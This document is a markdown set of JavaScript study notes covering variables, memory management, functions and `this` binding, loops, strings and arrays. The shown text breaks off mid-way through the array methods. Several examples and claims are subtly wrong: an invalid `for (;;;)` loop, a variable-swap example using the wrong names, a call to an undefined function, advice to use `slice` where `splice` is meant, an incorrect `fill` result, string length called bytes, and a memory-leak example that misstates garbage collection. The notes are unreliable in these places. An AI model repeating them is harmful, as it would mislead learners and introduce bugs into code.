# INDEX

- [INDEX](#index)
  - [JavaScript](#javascript)
    - [ECMA Script (ES)](#ecma-script-es)
    - [Adding javascript file in html](#adding-javascript-file-in-html)
  - [Variables](#variables)
    - [`Var` vs `const` \& `let`](#var-vs-const--let)
    - [Memory Management](#memory-management)
      - [Garbage collection](#garbage-collection)
      - [Memory Leak](#memory-leak)
  - [Function](#function)
    - [Function declaration vs Function expression](#function-declaration-vs-function-expression)
    - [Arrow function](#arrow-function)
    - [IIFE](#iife)
    - [Function Constructor](#function-constructor)
    - [Function binding](#function-binding)
      - [Losing "`this`" keyword](#losing-this-keyword)
      - [Solution 1: Wrapper](#solution-1-wrapper)
      - [Solution 2 (better): bind](#solution-2-better-bind)
        - [`bindAll()`](#bindall)
      - [Solution 3 (better): Arrow functions](#solution-3-better-arrow-functions)
    - [Arguments](#arguments)
  - [Iteration \& Loops](#iteration--loops)
    - [For loop](#for-loop)
    - [For..of loop (looping over iterables)](#forof-loop-looping-over-iterables)
    - [For..in loop (looping over object keys) (Old way)](#forin-loop-looping-over-object-keys-old-way)
    - [For await..of loop](#for-awaitof-loop)
  - [Data Structures](#data-structures)
    - [Strings](#strings)
      - [String Methods](#string-methods)
      - [Operations on strings](#operations-on-strings)
      - [Regular expressions](#regular-expressions)
    - [Arrays](#arrays)
      - [Array Destructuring](#array-destructuring)
      - [Array methods](#array-methods)
        - [Array Data Transformation Methods (`map`, `filter`, `reduce`)](#array-data-transformation-methods-map-filter-reduce)
    - [Object](#object)
      - [Object Methods](#object-methods)
      - [Object.keys, values, entries](#objectkeys-values-entries)
      - [Transforming objects (operations on objects)](#transforming-objects-operations-on-objects)
      - [Object Destructuring](#object-destructuring)
    - [Sets](#sets)
      - [WeakSet](#weakset)
    - [Maps](#maps)
      - [WeakMap](#weakmap)
  - [Numbers](#numbers)
    - [Math operations](#math-operations)
    - [Special numbers](#special-numbers)
    - [Numbers Internationalization](#numbers-internationalization)
  - [Date](#date)
    - [Operations with Dates](#operations-with-dates)
    - [Dates Internationalization](#dates-internationalization)
    - [Dates Third-party Libraries](#dates-third-party-libraries)
  - [Operators](#operators)
    - [Types of Operators](#types-of-operators)
    - [Operator Precedence](#operator-precedence)
    - [Spread Operator](#spread-operator)
    - [Rest Parameters](#rest-parameters)
    - [Short circuiting - Nullish coalescing operator `??`](#short-circuiting---nullish-coalescing-operator-)
  - [Errors](#errors)
    - [Error object](#error-object)
      - [Custom Errors](#custom-errors)
        - [Extending Error](#extending-error)
    - [Error Handling](#error-handling)
  - [Forms](#forms)
    - [Form Elements](#form-elements)
      - [input and textarea](#input-and-textarea)
      - [select and option](#select-and-option)
    - [event handler in forms](#event-handler-in-forms)
    - [Form Validation](#form-validation)
      - [Focusing: focus/blur](#focusing-focusblur)
      - [Events: change, input, cut, copy, paste](#events-change-input-cut-copy-paste)
    - [FormData API](#formdata-api)
  - [CROSS-SITE SCRIPTING (XSS) ATTACKS](#cross-site-scripting-xss-attacks)
    - [Defending against CROSS-SITE SCRIPTING](#defending-against-cross-site-scripting)
  - [Implementations](#implementations)
    - [Lazy loading](#lazy-loading)
    - [Slider (pagination)](#slider-pagination)
  - [Writing Documentation](#writing-documentation)

---

## JavaScript

JavaScript is a **high-level**, **interpreted**, **dynamic**, **single-threaded**, **Object-oriented** programming language. It is **weakly typed** and **dynamically typed** language.

- **high-level** : it provides abstractions that allow us to ignore machine-level details like memory-management.
- **interpreted** : it doesn't need to be compiled, it's executed directly by the browser (line by line);
- **dynamic** : it executes at runtime many common programming behaviors that static programming languages perform during compilation. ex: allocating memory for variables, determining the type of a variable or object, determining the scope of variables, etc.
- **single-threaded** : it means that only one task can be executed at a time.
- **Object-oriented**: it's based on objects, for storing most kinds of data.
- **weakly typed** : it doesn't require us to declare the type of variables. ex: `let x = 5;` or `let x = "John";`
- **dynamically typed** : it means that the type of a variable is checked during runtime rather than in advance. ex: `let x = 5;` or `let x = "John";`
- **Multi-paradigm** : it supports different styles of programming like **procedural programming**, **object-oriented programming**, and **functional programming**.

---

### ECMA Script (ES)

**ECMAScript** is a standard for scripting languages, It was created to standardize JavaScript to help foster multiple independent implementations. It is the standard that defines what JavaScript is.



- The new versions of ECMAScript is released every year, and they're backward compatible with the previous versions.
  

- How to use modern JavaScript
  

---

### Adding javascript file in html

To add a script to an HTML page, we use the `<script>` tag. The `type` attribute is not required. The `src` attribute is used to include an external script file.

```html
<script src="script.js"></script>
```

- There're 2 ways to include JavaScript in an HTML document:

  - **Inline script**: The script is directly written in the HTML document in the `<script>` tag

    ```html
    <script>
      alert('Hello, World!');
    </script>
    ```

  - **External script**: The script is written in an external file and included in the HTML document.

    ```html
    <script src="script.js"></script>
    ```

- Why use separate `js` file in `<script>` tags

  - The benefit of a separate file is that the browser will download it and store it in its **cache**.
  - Other pages that reference the same script will take it from the cache instead of downloading it, so the file is actually downloaded only once. --> That reduces traffic and makes pages faster.

- A single `<script>` tag can’t have both the **src** attribute and code inside.

  ```html
  <script src="file.js">
    alert(1); // the content is ignored, because src is set
  </script>

  <!-- You can separate the 2 scripts -->
  <script src="file.js"></script>
  <script>
    alert(1);
  </script>
  ```

---

## Variables

- When naming variables, there are some guidelines:
  - must not start with a digit
  - must not be a reserved keyword (like `new`, `class`, ...)
  - uppercase names are for **constants** (variables that should not be changed)

---

### `Var` vs `const` & `let`




- **Var**

  - is function-scoped (`“var”` has no block scope) this means that if you used it in a block-scope it will also be available outside of this block-scope, **means you can't use the function-level variables outside the function-scope**

    - Variables, declared with `var`, are either function-scoped or global-scoped. They are visible through blocks.

      ```js
      function f() {
        // It can be accessible any where (within) this function
        //
        var a = 10;
        console.log(a); // 10
      }
      f();

      // A cannot be accessible
      // outside of function
      console.log(a); // ReferenceError: a is not defined

      // ---------------------------------------------------------------

      if (true) {
        // It can be accessible any where
        var a = 10;
        console.log(a); // 10
      }
      console.log(a); // 10

      // ---------------------------------------------------------------

      for (var i = 0; i < 10; i++) {
        var one = 1;
        // ...
      }
      alert(i); // 10, "i" is visible after loop, it's a global variable
      alert(one); // 1, "one" is visible after loop, it's a global variable
      ```

  - `var` tolerates re-declarations

    ```js
    let user;
    let user; // SyntaxError: 'user' has already been declared

    var user = 'Pete';
    var user = 'John'; // this "var" does nothing (already declared)
    // ...it doesn't trigger an error

    alert(user); // John
    ```

  - `var` is the old way to declare a variable in JavaScript (before ES6), it's not used anymore, it's better to use `let` and `const` instead.
  - variable defined with `var` is an `window` object property, meaning that it can be accessed from anywhere in the code **(global scope)**

  - `“var”` variables can be declared below their use

    - `var` declarations are processed when the function starts (or script starts for globals). In other words, `var` variables are defined from the beginning of the function, no matter where the definition is

      ```js
      function sayHi() {
        phrase = 'Hello';

        alert(phrase);

        var phrase;
      }
      sayHi();
      ```

    - **Important Note**: Declarations are hoisted, but assignments are not.

      - Because all `var` declarations are processed at the function start, we can reference them at any place. But variables are `undefined` until the assignments.

        ```js
        function sayHi() {
          var phrase; // declaration works at the start...

          alert(phrase); // undefined

          phrase = 'Hello'; // ...assignment - when the execution reaches it.
        }

        sayHi();
        ```

  - `var` variable can be **re-declared (re-defined)** without errors:

    ```js
    var num = 20;
    num = 15; // Ok
    var num = 50; // Ok
    ```

  - variables declared with `var` are in the global scope, and are accessible through the `window` object.

    ```js
    var x = 5;
    console.log(window.x); // 5

    let y = 10;
    console.log(window.y); // undefined
    ```

- **let & const** are both function-scoped and block-scoped (anything within `{}`), **means you can't use it outside the function-scope & block-scope**

---

### Memory Management

#### Garbage collection

Javascript has a built-in garbage collector that automatically removes the old, unused objects from memory to free up space.

JavaScript is a garbage collected language. If you allocate memory inside of a function, JavaScript will automatically remove it from the memory heap when the function is done being called.

- Garbage collection is automatic.
- Objects stay in memory while **reachable**.
- Javascript uses algorithm called **Mark-and-sweep**.
  
  - Unreachable objects become garbage-collected.
    
- Modern engines use advanced garbage collection algorithms.

  - to remove something from memory in garbage-collection, we need to make it **unreachable**, ex:

    ```js
    let john = { name: 'John' };
    // the object can be accessed, john is the reference to it

    // overwrite the reference
    john = null;
    // the object will be removed from memory
    ```

- Some developers have the wrong impression that as Javascript has a garbage collector, they don't need to worry about memory management. But it's not true, you still need to manage memory in JavaScript, because the garbage collector can't collect everything, and it can't collect everything immediately. and you might face some performance issues if you don't manage memory properly like **memory leaks**.
- However, that does not mean you can forget about memory leaks. No system is perfect, so it is important to always remember memory management.

#### Memory Leak

**Memory leak** is a common problem in programming, where the application uses more memory than it should, and it doesn't release the memory that is no longer needed.

- **Causes of memory leaks:**

  - **Global variables**: if you declare a variable in the global scope, it will be available throughout the application, and it will not be garbage collected until the application is closed.
  - **Event listeners**: if you add an event listener to an element, and you don't remove it, it will keep a reference to the element in memory, even if the element is removed from the DOM.
  - **Closures**: if you create a closure inside a function, and you don't remove it, it will keep a reference to the outer function, and it will not be garbage collected.
  - **Timers**: if you create a timer using `setTimeout` or `setInterval`, and you don't clear it, it will keep a reference to the function, and it will not be garbage collected.
  - **DOM elements**: if you create a DOM element using `document.createElement`, and you don't remove it, it will keep a reference to the element, and it will not be garbage collected.

- Example:

  ```js
  var person = {
    first: 'Brittney',
    last: 'Postma'
  };

  person = 'Brittney Postma';
  ```

  - In the example above a memory leak is created. By changing the variable person from an object to a string, it leaves the values of first and last in the memory heap and does not remove it.
  - This can be avoided by trying to keep variables out of the global namespace, only instantiate variables inside of functions when possible.

---

## Function

It's a block of code that can be reused and called by name. The code inside a function is executed when the function is invoked.



- when you use a function that do a calculation process, you should put the invocation of this function in a variable and not invoking it many time => **for performance**

- **Default parameters**:

  - If a parameter is not provided, then its value becomes `undefined`.
  - We can set a default value for a parameter if it's not provided.

    ```js
    function showMessage(from, text = 'no text given') {
      alert(from + ': ' + text);
    }

    showMessage('Ann'); // Ann: no text given
    ```

---

### Function declaration vs Function expression



- **Function Declarations**:

  - Can be called before they are defined (hoisted).
  - Interpreter processes them before executing the script.
  - Instantly fully initialized when the Lexical Environment is created.
    
  - Example:

    ```js
    console.log('The future says:', future()); // this works! ✅ (even though the function is defined below)

    function future() {
      return "You'll never have flying cars";
    }

    console.log('The future says:', future()); // this also works! ✅
    ```

- **Function Expressions**:

  - Cannot be called before they are defined.
  - Treated as expressions and known as function expressions.
  - Can be anonymous or named which is used for recursion or self-calling.
  - Example:

    ```js
    console.log('The future says:', future()); // Error ❌: future is not a function

    let sayHi = function () {
      alert('Hello');
    };

    console.log('The future says:', future()); // Works ✅
    ```

  - Use named function expressions for recursion or self-calling.

    ```js
    let counter = function count() {
      // ...
      count();
    };
    ```

  - Benefits:
    - Reliable self-reference.
    - More debuggable stack traces.
    - Self-documenting code.

---

### Arrow function

It's a shorter syntax for writing function expressions. It's a more concise way to write function expressions.

```js
let func = (arg1, arg2) => expression;

// equivalent to
let func = function (arg1, arg2) {
  return expression;
};
```

- if you use declaration block `{}` then you should use the word `return` to return something
- **Arrow functions** have no `this`:

  - They don’t have their `own this`. If we reference `this` from an arrow function, it’s taken from the outer “normal” function.
  - There’s a difference between an `arrow function` => and a regular function called with `.bind(this)`:
    - `.bind(this)` creates a “bound version” of the function.
    - The `arrow =>` doesn’t create any binding. The function simply doesn’t have `this`. The lookup of this is made exactly the same way as a regular variable search: in the outer lexical environment.

- **Limitations:**
  - It's shorter but at a cost of it will be **anonymous function** and not a **named function**, which means that it will need you to read the function body to understand what it does instead of figuring out this from its name
  - It doesn't have `arguments` variable
  - Can’t be called with `new`
  - Doesn’t have `super`

---

### IIFE

**Immediately Invoked Function Expression** (IIFE) is a function that runs as soon as it is defined - It is an inline function expression. which create its own scope

- **It's a simple approach to avoid global scope pollution**
- It's an old approach for creating `modules`

  > In the past, as there was only `var`, and it has no **block-level** visibility, programmers invented a way to emulate it to create a separate scope. where they used IIFE to create a separate scope.

- [ `anonymous function` / `IIFE` ] are **inline function expressions**.

- Ways to create `IIFE`

  ```js
  (function () {
    alert('Parentheses around the function');
  })();

  // with arguments
  (function (message) {
    alert(message);
  })('Hello');

  (function ($) {
    $('h1').css('color', 'red');
  })(jQuery);
  ```

- **Why IIFE ?**:

  - Turns block-scope into functional-scope.
  - Prevents global scope pollution (`var`).
  - Avoids variable name conflicts.
  - Runs code once within a task.
  - Used in:
    - Function arguments
    - Event handlers
    - Preventing conflicts between scripts

- Less common now due to `let` and `const` with block-level scope.

  ```js
  {
    let message = 'Hello';
    alert(message); // Hello
  }

  alert(message); // Error: message is not defined
  ```

---

### Function Constructor

It's a way to create a function using the `Function` constructor.

> **It's not recommended to use it, because it's not safe and it's not efficient.**

```js
const sayHi = new Function('return "Hello"');
alert(sayHi()); // Hello

const sum = new Function('a', 'b', 'return a + b');
alert(sum(1, 2)); // 3
```

- The first pamater is the list of arguments, and the last one is the function body.
  - if there's only one argument, it wll be the function body.

---

### Function binding

When passing object methods as callbacks, there’s a known problem: **"losing "this""**.

> You can find more about `this` keyword here: [this-keyword-in-functions-execution-context](./9-JS_Advanced_concepts.md#this-keyword-in-functions-execution-context)

#### Losing "`this`" keyword

- EX for explanation:

  ```js
  let user = {
    firstName: 'John',
    sayHi() {
      alert(`Hello, ${this.firstName}!`);
    }
  };

  setTimeout(user.sayHi, 1000); // Hello, undefined!
  ```

  - `setTimeout` separates `sayHi` from `user` object, losing context of `this`. because now the `sayHi` is a function is being called by `setTimeout` and not by `user` object.

    ```js
    let f = user.sayHi;
    setTimeout(f, 1000); // lost user context
    ```

  - `this` becomes `window`, so `this.firstName` is undefined.

  **undefined**.

#### Solution 1: Wrapper

- The simplest solution is to use a **wrapping function**:

  ```js
  let user = {
    firstName: 'John',
    sayHi() {
      alert(`Hello, ${this.firstName}!`);
    }
  };

  setTimeout(function () {
    user.sayHi(); // Hello, John!
  }, 1000);
  // It works, because it receives "user" from the outer lexical environment, and then calls the method normally.
  ```

- **vulnerability**:
  - What if before `setTimeout` triggers (there’s one second delay!) user changes value? Then, suddenly, it will call the wrong object!

#### Solution 2 (better): bind

- using the built-in method `bind` that allows to fix `this`.

  ```js
  let user = {
    firstName: 'John'
  };

  function func() {
    alert(this.firstName);
  }

  let funcUser = func.bind(user);
  funcUser(); // John
  ```

- following our `setTimeout` example:

  ```js
  let user = {
    firstName: 'John',
    sayHi() {
      alert(`Hello, ${this.firstName}!`);
    }
  };

  let sayHi = user.sayHi.bind(user); // (*)

  // can run it without an object
  sayHi(); // Hello, John!

  setTimeout(sayHi, 1000); // Hello, John!

  // even if the value of user changes within 1 second
  // sayHi uses the pre-bound value which is reference to the old user object
  user = {
    sayHi() {
      alert('Another user in setTimeout!');
    }
  };
  ```

- **Notes:**

  - The `.bind()` method creates a new function
  - The `.bind()` method requires passing value/reference for `this`, so we must put in something like `null`.
  - A function cannot be **re-bound**.

    ```js
    function f() {
      alert(this.name);
    }

    f = f.bind({ name: 'John' }).bind({ name: 'Pete' });
    f(); // John
    ```

##### `bindAll()`

- If an object has many methods and we plan to actively pass it around, then we could bind them all in a loop:

  ```js
  for (let key in user) {
    if (typeof user[key] == 'function') {
      user[key] = user[key].bind(user);
    }
  }
  ```

- or you can use the [\_.bindAll(object, methodNames)](https://lodash.com/docs#bindAll) in **lodash**.

#### Solution 3 (better): Arrow functions

- Arrow functions get the value of `this` from the outer function that **contains** it (where it was created). So it's a good solution for our case. and usually it's used in the case of **callbacks** for **event handlers**.

  ```js
  let func = () => alert(this);
  let func2 = function () {
    alert(this);
  };

  button.addEventListener('click', func); // shows the window object
  button.addEventListener('click', func2); // shows the button object (not usually what we want)
  ```

---

### Arguments

JavaScript is extremely broad-minded about the number of arguments you pass to a function.

- If you pass too many, the extra ones are ignored.
- If you pass too few, the missing parameters get assigned the value **undefined**.

- **The `arguments` keyword**:

  - Special array-like object containing all function arguments by index.
  - Example:

    ```js
    function showName() {
      alert(arguments.length);
      alert(arguments[0]);
      alert(arguments[1]);
    }
    showName('Julius', 'Caesar'); // 2, Julius, Caesar
    ```

  - Before `rest` parameters, `arguments` was used to get all function arguments.
  - Downsides:
    - Not a true array; lacks array methods like `map`.
    - Always contains all arguments; can't capture partially like `rest` parameters.
  - **Arrow functions**:

    - No `arguments` object; inherits from the outer function.

- **Spread syntax**

  - When `...arr` is used in the function call, it “expands” an iterable object arr into the list of arguments.

    ```js
    let arr = [3, 5, 1];

    alert(Math.max(...arr)); // 5 (spread turns array into a list of arguments)
    ```

- `.length` property in functions (`Function.prototype.length`) returns the number of **arguments** specified in the function definition

  ```js
  (function foo(a, b) {}).length; // 2
  ```

---

## Iteration & Loops

| For Loop                                                | While Loop                                                                           | Do While Loop                                                       |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------ | ------------------------------------------------------------------- |
| Runs a specific number of times, usually with a counter | Runs as long as a condition is true, useful when the number of iterations is unknown | Always runs at least once, even if the condition is false initially |

- Examples

  ```js
  // For loop
  for (let i = 0; i < 3; i++) {
    alert(i); // 0, 1, 2
  }

  // While loop
  let i = 0;
  while (i < 3) {
    alert(i); // 0, 1, 2
    i++;
  }

  // Do While loop
  let i = 0;
  do {
    alert(i); // 0, 1, 2
    i++;
  } while (i < 3);
  ```

- We can also use methods like `forEach` but note that it doesn't support `break` or `continue`.

---

### For loop

It's used when you know the number of iterations.

```js
for (let i = 0; i < 3; i++) {
  alert(i); // 0, 1, 2
}
```

- in `for` block we use `let` and not (`const` or `var`) because:

  - `let` is block-scoped, so it's better to use it in loops
  - `var` is function-scoped, so it's better to avoid it in loops, as it will be available outside the loop
  - `const` is not suitable for loops, as it can't be reassigned

  ```js
  // Using let ✅
  for (let i = 0; i < 3; i++) {
    console.log(i); // 0, 1, 2
  }
  console.log(i); // ReferenceError: i is not defined

  // ----------------------------------------- //

  // Using var ❌
  for (var i = 0; i < 3; i++) {
    console.log(i); // 0, 1, 2
  }
  console.log(i); // 3 (it's available outside the loop because it's function-scoped, unlike let which is block-scoped so it's not available outside the block)

  // ----------------------------------------- //

  // Using const ❌
  for (const i = 0; i < 3; i++) {
    console.log(i); // 0, then error: Assignment to constant variable.
  }
  console.log(i); // ReferenceError: i is not defined
  ```

- Example of `for` loop without any thing in `()` :

  ```javascript
  let p = ['sample1','sample2','sample3','sample4','sample5'];
  let i = 0;

  for (;;;) {
    console.log(p[i]);
    i++;
    if (i === p.length) break;
  }
  ```

---

### For..of loop (looping over iterables)

It's a modern way to iterate over **iterables** like (`Array`, `Map`, `Set`, `String`, etc), except `objects`.

> An **iterator** must have the method named `next()` that returns an object `{done: Boolean, value: any}`, here `done:true` denotes the end of the iteration process, otherwise the value is the next value.

- It doesn't give access to the index of the current element by default, but in case you need it, you can use the `Array.prototype.entries()` method.

  ```js
  let fruits = ['Apple', 'Orange', 'Plum'];

  for (let fruit of fruits) {
    alert(fruit); // Apple, Orange, Plum
  }

  // with index
  for (let [i, fruit] of fruits.entries()) {
    alert(`${i + 1}: ${fruit}`); // 1: Apple, 2: Orange, 3: Plum
  }
  ```

---

### For..in loop (looping over object keys) (Old way)

To walk over all **keys of an object**, there exists a special form of the loop: `for..in`.

```js
let user = {
  name: 'John',
  age: 30,
  isAdmin: true
};

for (let key in user) {
  // keys
  alert(key); // name, age, isAdmin
  // values for the keys
  alert(user[key]); // John, 30, true
}
```

- it can be used with arrays to loop through the indexes

  ```js
  let arr = ['Apple', 'Orange', 'Pear'];

  for (let key in arr) {
    alert(arr[key]); // Apple, Orange, Pear
  }
  ```

  - The `for..in` loop is optimized for generic objects, not arrays, and thus is 10-100 times slower. Of course, it’s still very fast. The speedup may only matter in bottlenecks. But still we should be aware of the difference.

---

### For await..of loop

It's a new way to loop over async iterables. It's used to iterate over async iterables like `fetch`, `readableStream`, etc.

```js
const asyncIterable = {
  [Symbol.asyncIterator]() {
    return {
      i: 0,
      next() {
        if (this.i < 3) {
          return Promise.resolve({ value: this.i++, done: false });
        }

        return Promise.resolve({ done: true });
      }
    };
  }
};

for await (let value of asyncIterable) {
  // code
}
```

---

## Data Structures

They are a way of organizing and storing data so that we can access and modify it efficiently.



### Strings

- `.length` returns the number of bytes, not characters (e.g., emojis require 2 bytes).

  ```js
  alert('Hello'.length); // 5
  alert('😂'.length); // 2
  ```

- **Multiline strings**:

  ```js
  // Using backticks
  let guestList = `
    Guests:
    * John
    * Pete
    * Mary
  `;

  // Using special characters
  let guestList = 'Guests:\n * John\n * Pete\n * Mary';

  // "\n" is a newline character, and it counts as one character.
  console.log('a\n b'.length); // 4 (a, newline, space, b)
  ```

- quotes inside strings:

  - In order to use quotes inside a string, you can use the **opposite** quotes or use the **backslash** `\` to escape the quotes.

    ```js
    let str = "I'm the Walrus!";
    let str2 = "I'm the Walrus!";

    let str3 = 'Steve Jobs once said: "something"';
    let str4 = 'Steve Jobs once said: "something"';
    ```

  - or use **backticks** ` "``" ` to avoid using quotes inside the string.

    ```js
    let str = `I'm the Walrus!`;
    let str2 = `Steve Jobs once said: "something"`;
    ```

#### String Methods

- Strings have methods like `length`, `toUpperCase()`, and `indexOf` despite being primitive types.

  - This is due to **"Boxing"**: JavaScript temporarily converts the string to a `String` object to access its methods and properties using the `prototype` chain.
    

- **convert number to a string**

  ```js
  const str = number + '';
  // or
  const str = String(number);
  ```

- **Access characters using index**

  - Use `[]` or `charAt(pos)`:

    ```js
    let str = 'Hello';
    alert(str[0]); // H
    alert(str.charAt(0)); // H
    ```

  - Difference: if no character is found, indexing `[]` returns `undefined`, and `charAt()` returns an empty string:

    ```js
    let str = `Hello`;

    alert(str[1000]); // undefined
    alert(str.charAt(1000)); // '' (an empty string)
    ```

- **Slicing and Substrings**

  - `substring(start, end)`: Similar to `slice()`, but allows `start` to be greater than `end`.

    ```js
    let str = 'stringify';

    // these are same for substring
    alert(str.substring(2, 6)); // "ring"
    alert(str.substring(6, 2)); // "ring"

    // ...but not for slice:
    alert(str.slice(2, 6)); // "ring" (the same)
    alert(str.slice(6, 2)); // "" (an empty string)
    ```

  - Usually `slice` is used with `indexOf` to get a substring from a string

    ```js
    let str = 'stringify';
    alert(str.slice(0, str.indexOf('i'))); // str
    ```

- **Split & Join**

  - `split(separator, limit)`: Splits a string into an array of substrings using a separator.

    - `separator` is a string or a regular expression.
    - `limit` is the number of splits to make.
    - If `separator` is an empty string, the string is split into an array of characters.

      ```js
      let names = 'John, Pete, Mary';
      let arr = names.split(', '); // ["John", "Pete", "Mary"]
      ```

  - `join(separator)`: Creates a string from an array by joining all elements with a separator.

    - If `separator` is omitted, the array elements are separated with a comma.

      ```js
      let arr = ['John', 'Pete', 'Mary'];
      let str = arr.join(', '); // John, Pete, Mary
      ```

- **Replacing words in a string**

  ```js
  const str = 'I really love cats. My cat is the best cat in the world.';

  // replace all occurrences of 'cat' with 'dog'
  const newStr = str.replace(/cat/g, 'dog'); // using regular expression
  // or
  const newStr = str.replaceAll('cat', 'dog'); // using replaceAll method
  ```

- **Capitalizing the first letter**

  ```js
  let str = 'stringify';
  alert(str[0].toUpperCase() + str.slice(1)); // "Stringify"
  // or
  alert(str.replace(str[0], str[0].toUpperCase())); // "Stringify"
  ```

- **Padding a string**
  

  - `padStart(targetLength, padString)`: Pads the current string with another string (repeated, if needed) so that the resulting string reaches the given length.

    ```js
    let str = '5';
    alert(str.padStart(4, '0')); // "0005"

    let cardNumber = '2034399002125581';
    let last4Digits = cardNumber.slice(-4);
    let maskedNumber = last4Digits.padStart(cardNumber.length, '*'); // "************5581"
    ```

  - `padEnd(targetLength, padString)`: Pads the current string with another string (repeated, if needed) so that the resulting string reaches the given length.

    ```js
    let str = '5';
    alert(str.padEnd(4, '0')); // "5000"
    ```

    

- **Chaining methods**

  - String methods can be chained because they return a string.

    ```js
    let str = ' stRinGify';
    alert(str.toLowerCase().trim()); // "stringify"
    ```

---

#### Operations on strings

- The binary `+` is the only operator that supports strings in such a way (concatenation) `2 + '1' --> "21"`

  ```js
  // NOTE That:
  console.log('1' + 2 + 2); // "122" and not "14"
  ```

- Other arithmetic operators work only with numbers and always convert their operands to numbers.

  ```js
  console.log('3' - '2'); // 1
  console.log('3' / '2'); // 1.5
  ```

---

#### Regular expressions

Regular expressions search for characters that form a pattern. They can also replace those characters with new ones.

- Regular expressions do not just search for matching letters; they can check for sequences of upper/lowercase characters, numbers, punctuation, and other symbols.
  

- We use `match()` method to match a string with a regular expression.

  ```js
  let str = 'We will, we will rock you';
  let result = str.match(/we/gi); // ["We", "we", "we"]
  ```

---

### Arrays

**Array** is a data structure that can store a collection of items. The items can be of any type.

- It's a special kind of object, with numbered indexes.

- To check if a value is an array, use `Array.isArray(value)`.

#### Array Destructuring

It's a way to extract multiple values from an array or object and assign them to variables in a single statement.

```js
let arr = ['Ilya', 'Kantor'];

const [firstName, surname] = arr;
// instead of
// let firstName = arr[0];
// let surname = arr[1];
```

- default values in **destructuring** -> (it's usually when we don't know the array is complete or not, like from API)

  ```js
  const [p = 1, q = 1, r = 1] = [8, 9];
  // now -> r will have a value
  ```

- skipping items when **destructuring**:

  ```js
  // skipping the second array-item
  const [one, , three] = [1, 2, 3];
  ```

- Use cases:

  - switching values of 2 variables :

    ```js
    let a = 5;
    let b = 8;
    [x, y] = [y, x]; // note that we don't use const / let here
    ```

---

#### Array methods



- When we call these methods on a "Array", JavaScript will use the properties and methods in the `Array` object to perform the operation and then return the result (using `prototype` chain).
  

- **`slice` vs `splice`**
  

  - `slice()` (makes a copy)

    - the slicing happens from `start` to `end` **(not including `end`)**, so `end` is not included in the result.
    - `-1` in `slice` means the last element, but in `splice` it means the last element will be removed.

    ```js
    let arr = ['t', 'e', 's', 't'];

    arr.slice(1, 3); // e,s (copy from 1 to 3)
    arr.slice(-2); // s,t (copy from -2 to the end)
    arr.slice(1, -1); // e,s (copy from 1 to -1) not including -1
    arr.slice(); // t,e,s,t (copy the whole array)
    ```

  - `splice()` (modifies the array)

    - `splice` returns an array of removed elements.
    - `splice` can remove and insert elements at the same time.
    - `splice` can remove elements from the beginning and end of an array.
    - it takes `start` and `deleteCount` as parameters. and not `end`.

    ```js
    let arr = ['I', 'study', 'JavaScript'];

    // from index 1 remove 1 element
    arr.splice(1, 1); // ["study"]

    // from index 0 remove 3 elements and replace them with another
    arr.splice(0, 3, "Let's", 'dance'); // ["I", "study", "JavaScript"] -> ["Let's", "dance"]
    ```

- **Adding / Removing elements from beginning and end**

  ```js
  let arr = ['I', 'study', 'JavaScript'];

  // remove 2 first elements
  arr.shift();
  arr.shift();

  // add the new element at the beginning
  arr.unshift("Let's", 'dance');

  console.log(arr); // now ["Let's", "dance", "JavaScript"]
  ```

  - `push()` and `unshift()` methods are used to add elements to the end and beginning of an array.
    - These methods return the new length of the array.
  - `pop()` and `shift()` methods are used to remove elements from the end and beginning of an array.
    - These methods return the removed element.

- **(`delete` vs `splice`)**

  - always use `slice` to remove element from an array, because `delete` will leave an empty slot in the array.

  ```js
  const arr1 = ['I', 'go', 'home'];
  const arr2 = ['I', 'go', 'home'];

  // delete
  delete arr1[1]; // remove "go"
  console.log(arr1[1]); // undefined
  // now arr1 = ["I",  , "home"];
  console.log(arr1.length); // 3

  //splice
  arr2.splice(1, 1); // from index 1 remove 1 element
  console.log(arr2); // ["I", "home"]
  console.log(arr2.length); // 2
  ```

- **`indexOf` vs `findIndex`**:

  - `indexOf(value)`: Finds index of a primitive value, returns `-1` if not found.
  - `findIndex(callback)`: Finds index using a callback function, useful for objects or complex conditions.

- **`flat` and `flatMap`**:

  - `flat(depth)`: Flattens nested arrays up to the specified depth **recursively**.
    
  - `flatMap(callback)`: Maps and flattens the array **one level deep** with customization of the mapping.
    

- **Sorting**

  - The `.sort()` method works as follows:

    - without condition -> it will sort based on the default comparator which assumes **string operations** (all values are coerced and compared as string)

      ```js
      [1, 30, 4, 21].sort(); // results: [1, 21, 30, 4]
      ```

    - with condition -> it will sort based on the provided comparator function

      - **Comparator function** should return a negative value if `a` should come before `b`, a positive value if `b` should come before `a`, and `0` if they are equal.

        ```js
        // compare function
        const compare_1 = (a, b) => {
          if (a > b) return 1;
          if (a == b) return 0;
          if (a < b) return -1;
        };
        // or
        const compare_2 = (a, b) => a - b;

        // if return is (< 0), show A before B
        // if return is (> 0), show B before A
        // if return is (0), items should remain in the same order
        ```

      - Example:

        - sorting numbers:

          ```js
          [1, 30, 4, 21].sort((a, b) => a - b); // results: [1, 4, 21, 30]
          // 1 - 30 = -29 (negative) -> `a` should come before `b` -> [1, 30]
          // 30 - 4 = 26 (positive) -> `b` should come before `a` -> [1, 4, 30]
          // 30 - 21 = 9 (positive) -> `b` should come before `a` -> [1, 4, 21, 30]
          ```

        - sorting dates:

          ```js
          const holidays = ['2014-12-25', '2014-01-01'];
          holidays.sort(function (a, b) {
            const dateA = new Date(a);
            const dateB = new Date(b);
            return dateA - dateB;
          });
          ```

        - sorting string characters:

          ```js
          const data = ['t', 'A', 'a', 'B', 'b'];
          data.sort((a, b) => {
            return a.localeCompare(b);
          }); // ["a", "A", "b", "B", "t"]
          ```

  - Note that `sort` method modifies the original array. If you want to keep the original array unchanged, you can use `slice` method to create a copy of the array and then sort the copy.

    ```js
    const arr = [1, 30, 4, 21];
    const sorted = arr.slice().sort((a, b) => a - b);
    // or
    const sorted = [...arr].sort((a, b) => a - b);
    ```

- methods for creating arrays with filled values

  - `Array.fill(value, start, end)`

    ```js
    const x = new Array(7); // [empty × 7]
    x.fill(7); // [7, 7, 7, 7, 7, 7, 7]
    x.fill(1, 3, 5); // [empty × 3, 1, 1, empty × 2]
    ```

  - `Array.from()`: creates an array from an iterable object and an optional mapping function.

    ```js
    const y = Array.from({ length: 3 }, () => 1); // [1,1,1]
    const z = Array.from({ length: 3 }, (_, i) => i + 1); // [1, 2, 3]

    const chars = Array.from('hello'); // ['h', 'e', 'l', 'l', 'o']

    // copy an array
    const arr = [1, 2, 3];
    const arrCopy = Array.from(arr); // [1, 2, 3] (a new copy)

    // convert set to array
